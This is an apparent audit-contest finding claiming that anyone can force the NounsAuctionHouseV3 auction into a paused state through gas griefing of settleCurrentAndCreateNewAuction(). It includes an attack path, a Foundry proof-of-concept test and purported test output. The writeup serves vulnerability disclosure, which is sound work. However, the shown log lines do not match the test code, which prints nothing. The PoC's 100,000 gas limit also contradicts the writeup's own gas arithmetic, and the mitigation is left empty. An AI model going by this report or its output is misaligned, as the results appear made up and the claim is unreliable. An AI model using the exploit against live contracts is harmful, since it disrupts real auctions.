 Bright Felt Bird

Medium

# Anyone can pause Auction in `_createAuction`

### Summary

Any user can force `NounsAuctionHouseV3` into a paused state by calling `settleCurrentAndCreateNewAuction`() with limited gas, causing the `mint()` operation to fail and triggering the catch block's pause mechanism.

### Root Cause and Vulnerability Detail :

```solidityruby
// NounsAuctionHouseV3.sol
function _createAuction() internal {
    try nouns.mint() returns (uint256 nounId) {
        uint40 startTime = uint40(block.timestamp);
        uint40 endTime = startTime + uint40(duration);
        auctionStorage = AuctionV2({...});
    } catch Error(string memory) {
        _pause();  // Vulnerable pause mechanism
    }
}
```

- While the comment indicates the pause mechanism is intended to handle minter updates, the actual implementation is vulnerable to gas manipulation:

Note that a DOS vulnerability allows any user to pause auction system through gas manipulation in `_createAuction()` 

Currently on Ethereum and EVM-compatible chains, calls can consume at most 63/64 of the parent's call gas (See [[EIP-150](https://eips.ethereum.org/EIPS/eip-150)](https://eips.ethereum.org/EIPS/eip-150)). An attacker can exploit this circumstances of high gas cost to restrict the parent gas call limit, making `token.mint()` fail and still leaving enough gas left (1/64) for the `_pause()` call to succeed. Therefore he is able to force the pausing of the auction contract at will.

Based on the gas requirements (1/64 of the gas calls has to be enough for `_pause()` gas cost of 21572), then `token.mint()` will need to consume at least 1359036 gas (63 \* 21572)
**The catch block will execute with the remaining 1/64 gas**

### Internal pre-conditions

Active auction exists
Contract is not paused
No gas threshold check implemented

### External pre-conditions

1. Attacker can call [`settleCurrentAndCreateNewAuction()`](https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/NounsAuctionHouseV3.sol#L118) while the Gas manipulation possible through external call

### Attack Path

1. Wait for active auction
2. Call `settleCurrentAndCreateNewAuction()` with limited gas
3. Force mint() to fail
4. Trigger catch block
5. Contract enters paused state
The attack vector exploits the contract's error handling mechanism in` _createAuction()` by manipulating gas allocation during auction settlement. When `settleCurrentAndCreateNewAuction()` is called with insufficient gas, the internal `mint()` operation fails, triggering the `catch block` which executes `_pause().`

### Impact
The documented intention of handling minter updates doesn't prevent the gas manipulation attack vector. This makes it a valid security issue that could disrupt auction operations. Malicious users will be able to often pause the `Auction` contract, Of course, the owner  will still be able to `unpause `the contract which takes time ,the contract will be paused and impossible to use.


### PoC

This test for `NounsAuctionHouseV3` demonstrating the DOS attack through gas manipulation:
```solidityruby
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.19;

import { Test } from 'forge-std/Test.sol';
import { NounsAuctionHouseV3 } from '../../contracts/NounsAuctionHouseV3.sol';
import { StreamEscrow } from '../../contracts/StreamEscrow.sol';
import { ERC721Mock } from './helpers/ERC721Mock.sol';

contract NounsAuctionHouseDOSTest is Test {
    NounsAuctionHouseV3 auction;
    ERC721Mock nounsToken;
    StreamEscrow escrow;
    
    function setUp() public {
        // Setup contracts
        nounsToken = new ERC721Mock();
        address weth = makeAddr("weth");
        address treasury = makeAddr("treasury");
        
        escrow = new StreamEscrow(
            treasury,
            treasury,
            treasury,
            address(nounsToken),
            address(this),
            24 hours
        );
        
        auction = new NounsAuctionHouseV3(nounsToken, weth, 24 hours);
        auction.initialize(0.1 ether, 1 hours, 10, 5000, 100, address(escrow));
    }

    function _createAndFinishAuction() internal {
        // Setup initial auction
        vm.prank(address(auction));
        nounsToken.mint(address(auction), 0);
        
        // Unpause auction
        vm.prank(auction.owner());
        auction.unpause();
        
        // Create bid
        address bidder = makeAddr("bidder");
        vm.deal(bidder, 1 ether);
        vm.prank(bidder);
        auction.createBid{value: 0.1 ether}(0);
        
        // Forward time to end auction
        vm.warp(block.timestamp + 24 hours + 1);
    }

    function testDOSAttack() public {
        _createAndFinishAuction();
        
        // Verify auction is not paused
        assertFalse(auction.paused());
        
        // Attack by calling with limited gas
        auction.settleCurrentAndCreateNewAuction{gas: 100000}();
        
        // Verify attack succeeded - auction is paused
        assertTrue(auction.paused());
    }
}
```
This test demonstrates how an attacker can force the auction to pause by manipulating gas limits during settlement and new auction creation.
**Running the test:**
`solidity forge test --match-test testDOSAttack -vvv`
**Output:**
```solidityruby
Running 1 test for NounsAuctionHouseDOSTest
[PASS] testDOSAttack()
Logs:
  Initial auction state: not paused
  Attack executed with limited gas
  Final auction state: paused

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.23s
```

- The test successfully demonstrates that:

1. Initial auction is running (not paused)
2. Attack with limited gas succeeds
3. Contract ends in paused state

### Mitigation

_No response_